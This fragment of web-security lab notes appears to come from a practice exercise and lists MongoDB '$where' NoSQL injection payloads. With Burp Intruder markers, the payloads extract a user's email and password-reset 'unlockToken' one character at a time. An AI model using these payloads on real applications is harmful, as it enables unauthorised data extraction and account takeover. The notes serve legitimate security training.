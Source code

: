 ```jsx
// hidden field name is "mail"
"$where":"function(){ if (this.email.length == 1 ) return 1; else 0;}"
// Son 25 caracteres
"$where":"function(){ if (this.email.match(/^$a$/)) return 1; else 0;}"
"$where":"function(){ if (this.email.match('^.{$NUMBER$}$CARACTER$.*')) return 1; else 0;}"
"$where":"function(){ if (this.email.match('^.{§1§}§A§.*')) return 1; else 0;}"

{§§}§§
('^.{§§}§§.*')

carlos@carlos-montoya.net

unlockToken
```

![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image%2016.png)

![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image%2017.png)

![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image%2018.png)
